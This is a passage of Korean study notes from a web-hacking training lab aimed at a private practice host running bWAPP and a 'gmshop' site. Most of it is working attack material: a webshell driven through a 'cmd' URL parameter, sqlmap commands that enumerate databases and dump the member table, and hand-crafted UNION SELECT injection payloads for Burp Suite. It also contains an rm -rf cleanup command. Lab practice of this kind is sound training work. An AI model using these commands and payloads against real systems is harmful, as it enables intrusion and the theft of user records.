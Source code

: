     ?>
    ```
5. ` http://192.168.113.130/webdav/shell.php?cmd=ls -al ` -> 이런식으로 url에서 cmd 사용 가능

### POST/Select

* SQLMAP 한 번 돌리면 로그를 무적권 삭제하자 (고객정보 보호) 
` sudo rm -rf /root/.local/share/sqlmap/output/192.168.113.130 `
* -v 옵션 -> verbose   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" --dbs -v 3 `
* information schema에서 schema_name을 찾는 코드
` -1509 UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x7176767a71,IFNULL(CAST(schema_name AS CHAR),0x20),0x71766a6a71) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 3,1),NULL,NULL,NULL,NULL-- - `
* gmshop 앞 뒤에 ` qvvzqgmshopqvjjq ` 이런식으로 쓸데없는 문자열이 앞뒤로 붙여짐 -> 컴퓨터가 찾기 편하기 위해 놓은 것 의미 없음
* 쓸데없는 함수 제거한 코드   
` -1509 UNION ALL SELECT NULL,NULL,(SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 3,1),NULL,NULL,NULL,NULL-- - `
* 버프스위트에 이렇게 넣자
` movie=-1509 UNION ALL SELECT NULL,NULL,(SELECT CONCAT(0x7176767a71,IFNULL(CAST(schema_name AS CHAR),0x20),0x71766a6a71) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 3,1),NULL,NULL,NULL,NULL-- -action=go `
* verbose 5로 올리기   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" --dbs -v 5 `
    * 더 상세한 인젝션을 수행함

## 웹 로그 파일
sqlmap 수행 하고 생긴 웹 로그 파일을 남겨두면 실무에서 유용하게 참고할 수 있다
* beebug에서 웹 로그 위치   
` cd /var/log/apache2 `
* ` > weblog.txt ` 사용하여 sqlmap 로그 남기기   
` sudo sqlmap -u "http://192.168.113.130/bWAPP/sqli_13.php" --cookie="PHPSESSID=0f7eb40b0e4fe01737238d80ab04fe91; security_level=1" --data "movie=1&action=go" --dbs -v 5 > weblog.txt  `

## gmshop 대상 sqlmap

` sudo sqlmap -u "http://192.168.113.130/gm/board_list.php" --data "boardIndex=6&search=name&searchstring=asd&x=16&y=14" --dbs `

` sudo sqlmap -u "http://192.168.113.130/gm/board_list.php" --data "boardIndex=6&search=name&searchstring=asd&x=16&y=14" -D gmshop --tables `

` sudo sqlmap -u "http://192.168.113.130/gm/board_list.php?boardIndex=6" --data "boardIndex=6&search=name&searchstring=asd&x=16&y=14" -D gmshop -T member --columns `

` sudo sqlmap -u "http://192.168.113.130/gm/board_list.php?boardIndex=6" --data "boardIndex=6&search=name&searchstring=asd&x=16&y=14" -D gmshop -T member --dump `

## 우편번호 인젝션 (수동)
* http://192.168.113.130/gm/search_post.php

